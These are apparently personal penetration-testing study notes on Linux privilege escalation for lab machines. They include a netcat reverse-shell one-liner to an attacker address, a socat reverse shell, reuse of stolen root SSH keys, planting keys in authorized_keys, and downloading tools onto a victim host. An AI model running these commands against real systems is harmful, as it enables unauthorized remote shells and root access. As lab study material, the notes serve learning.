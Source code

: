 # Privilege Escalation  😈

## Two Types of Priv Esc  
<blockquote>
There are two common types of privilege escalation: vertical and horizontal. Vertical privilege escalation involves a user accessing files or functions that are normally associated with accounts that have higher privileges. Horizontal privilege escalation allows users to access resources in other accounts with similar privilege levels as they have.
</blockquote>



## Linux-Smart-Enumeration
* Check out the github page right <a href="https://github.com/diego-treitos/linux-smart-enumeration">here</a>.




## Most Reliable Reverse Shell Payload  
	```console
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ATTACKER'S IP ADDRESS] [PORT OF THE ATTACKER'S CHOOSING] >/tmp/f
	```



## Upgrade the Reverse Shell   



* Using `socat` instead of `nc`  

	```console
	#Listener
	socat file:`tty`,raw,echo=0 tcp-listen:4444

	#Victim  
	socat exec:'bash -li',pty,stderr,setsid,sane tcp:10.0.3.4:4444
	```  

* Using stty options (Never Worked With Me) 
	```console
	# In reverse shell 
	python3 -c 'import pty; pty.spawn("/bin/bash")'
	ctrl-z  

	# In Kali 
	stty raw -echo  
	fg

	# In reverse shell
	reset
	export ShELL=bash
	export TERM=xterm-256color
	stty row <num> columns <cols>
	```

* If we type `stty -a` it will give me info and I can get the rows and columns from there.
* I can also echo the $TERM variable and put its value in the reverse shell as the value I have on my Kali.  

## Sudo & Sudoers   

* We can use `sudo` to give the current user privilege to do something as another user as follows `sudo -u [USERNAME] [COMMAND]` by default without the `-u` option it gives the user root privilege if the user was in the sudoers file, which also can't be accessed unless the user had privilege to access it.
* To check if the user have access to use sudo, especially that sometimes a user can have access to sudo a specific command and not everything, we can use this command `sudo -l` which should open the sudoers file unless we don't have privilege to do so.   
* With regard to privilege escalation we can also exploit the sudo command itself by checking if it's version have any already existing exploits. I can get the version in multiple ways and one of these ways is to when using linPEAS.



### When Using gcc  
* The option `-Wall` is a warning option.

### SSH Keys   

* We can use ssh keys to privesc  

```console
Shatha Barqawi@htb[/htb]$ vim id_rsa
Shatha Barqawi@htb[/htb]$ chmod 600 id_rsa
Shatha Barqawi@htb[/htb]$ ssh user@10.10.10.10 -i id_rsa

root@remotehost#
```  

* This ssh key can be found in the following path if I have access to it `/home/user/.ssh/id_rsa` or `/root/.ssh/id_rsa`.

<blockquote>
Note that we used the command 'chmod 600 id_rsa' on the key after we created it on our machine to change the file's permissions to be more restrictive. If ssh keys have lax permissions, i.e., maybe read by other people, the ssh server would prevent them from working.
</blockquote>   

* We can also put our public key in the directory `/home/user/.ssh/authorized_keys` if we have the permissions to do so. How to do that?  

* Create key on my machine 
	```console
	Shatha Barqawi@htb[/htb]$ ssh-keygen -f key
	```
* This will create two file `key` (which we will use with `ssh -i`) and `key.pub`(which we will copy to the remote machine).

### Transferring Files  

1. Using `wget`  
* We run a Python HTTP server on our machine and wget or cURL on the victim to download the file   

* On my machine
  ```console
  Shatha Barqawi@htb[/htb]$ cd /tmp
  Shatha Barqawi@htb[/htb]$ python3 -m http.server 8000

  Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
  ```

* On victim  
  ```console
  user@remotehost$ wget http://10.10.14.1:8000/linenum.
  ```  
  OR   
  ```console
  user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
  ```  

2. Using `scp`  

	```console
	scp [PATH TO FILE ON MY SYSTEM] [USERNAME]@[TARGET IP]:[PATH ON TARGET TO TRANSFER FILE TO]
	```

3. Using `base64`  
* In some cases, there might be firewall protections that prevent us from downloading a file from our machine. In such case we can use `base64` and encode the file into base64 format and then copy/paste the base64 string to the remote server and decode it there.   
  ```console
  Shatha Barqawi@htb[/htb]$ base64 shell -w 0
  ```  

  ```console
  user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA...SNIO...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
  ```  

* To check that we didn't miss anything up during the encoding/deconding process we can use the command `md5sum [FILENAME]` on both machines and check if they're equal.  


### The Shells on Victims   
* We can find the shells that can be used on the victim's machine with the following command in the following file   `cat /etc/shells`.

### The `tee` Command

* Store the output of a command in a file with the following command `[COMMAND] | tee [FILE NAME]`.   

### The `dpkg -l`  Command   
* Shows the packages and libraries on the system.
* Is it exclusively used on Debian based Linux? Seems so -- not sure tho.🤔

* Write about the $PATH variable how to add to it.
```console
export PATH=$PATH:/tmp
#or
export PATH=/tmp:$PATH
```

____ 
I have to write more about this 
* SUID (Set owner User ID)



<br/>

* `[COMMAND] | tee [FILE NAME]` 
* Stores output of the command in a file.  

<br/>

* `dpkg -l`  
* Shows the packages and libraries on system.
* I think this command is only for Debian based OSes 🤔.


<br/>

* Some info on gcc  
* The option `-Wall` is a warning option.  
* ### <span class="useful_shit subtitle">Upgrading The Reverse Shell   

* The bitch machine Cronos keeps making problems for me and I can't seem to open the admin some times. So I wasn't able to test the ways I'll be mentioning next (I got them from this <a href="https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/">website</a>)  